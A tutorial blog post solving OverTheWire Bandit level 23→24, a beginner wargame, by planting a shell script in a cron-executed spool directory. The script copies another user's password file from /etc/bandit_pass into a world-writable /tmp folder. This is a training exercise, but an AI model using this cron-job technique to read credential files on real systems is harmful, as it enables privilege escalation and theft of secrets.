 ```yaml
---
author: Programmercave
date: "2019-12-25T00:00:00Z"
description: Learn linux command by playing Bandit wargame. The Bandit wargame is
  aimed at absolute beginners. It will teach the basics needed to be able to play
  other wargames. Below is the solution of Bandit Level 23 → Level 24.In this level
  we will learn about corntab files and write our first shell-script in this series.
  The passwords are hidden, so you have to find the passwords for next level yourself.
header-img: /assets/images/Bandit-Overthewire/overthewire_poster.jpg
tags:
- Linux
- OverTheWire-Bandit
- CTF
title: Bandit Level 23 → Level 24 | OverTheWire
---
```




Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 23 → Level 24. 

In this level we will learn about corntab files and write our first shell-script in this series. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire](/assets/images/Bandit-Overthewire/overthewire_poster.jpg)

### Previous Post

[Bandit Level 0 to Level 3](/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8](/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11](/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13](/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15](/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18](/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20](/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22](/Bandit-Level-21-to-Level-23-OverTheWire)

## [Bandit Level 23 → Level 24](https://overthewire.org/wargames/bandit/bandit24.html)

### Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

### Solution : 

Command to connect remote host : `ssh bandit23@bandit.labs.overthewire.org -p 2220` password is `****` .

Execute these commands to know the content of crontab file and then content of the script file.
```
cd /etc/cron.d/
ls
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
```

The script in *cronjob_bandit24.sh* is :
```
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done
```

The command `cd /vars/pool/$myname` will change to *bandit24* directory and then all scripts in directory *bandit24* will be executed and then deleted. This is done in every 60 seconds as `timeout` is provided.

![Bandit Level 23 24](/assets/images/Bandit-Overthewire/bandit_l2324_terminal1.jpg)

So if we put our script in */var/spool/bandit24* then it will be executed and then deleted. So we will write our script such that it will output password for next level.

We will create a directory *pcdir123* in */tmp* directory and change the permissions to readable, writeable and executable for *pcdir123*. (This is very important). The command are:
```
mkdir /tmp/pcdir123
chmod 777 pcdir123
```

![Bandit Level 23 24](/assets/images/Bandit-Overthewire/bandit_l2324_terminal2.jpg)

Now create a script file *pass24script.sh* in */tmp/pcdir123* which will contain our script. The script is 
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/pcdir123/pass24file
```

*pass24script.sh* is not executable, so make it executable for all users using command `chmod 777 pass24script`.

![Bandit Level 23 24](/assets/images/Bandit-Overthewire/bandit_l2324_terminal3.jpg)

Copy this script in */var/spool/bandit/24* using command `cp pass24script.sh /var/spool/bandit24`

When new minute starts, file pass24file is produced with password for the next level if the directory pcdir123 has write permission enabled. The password is `****` .

![Bandit Level 23 24](/assets/images/Bandit-Overthewire/bandit_l2324_terminal4.jpg)
 
Reference: [https://www.reddit.com/r/HowToHack/comments/cg3zu9/is_overthewires_bandit_level_2324_broken_spoilers/](https://www.reddit.com/r/HowToHack/comments/cg3zu9/is_overthewires_bandit_level_2324_broken_spoilers/)<br/>
[https://www.billycody.com/otw-wargames/bandit/bandit-level-23](https://www.billycody.com/otw-wargames/bandit/bandit-level-23)

### Next Post

[Bandit Level 24 → Level 25](/Bandit-Level-24-Level-25-OverTheWire)<br/>
[Bandit Level 25 to Level 26](/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31](/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33](/Bandit-Level-32-Level-33-OverTheWire)<br/>




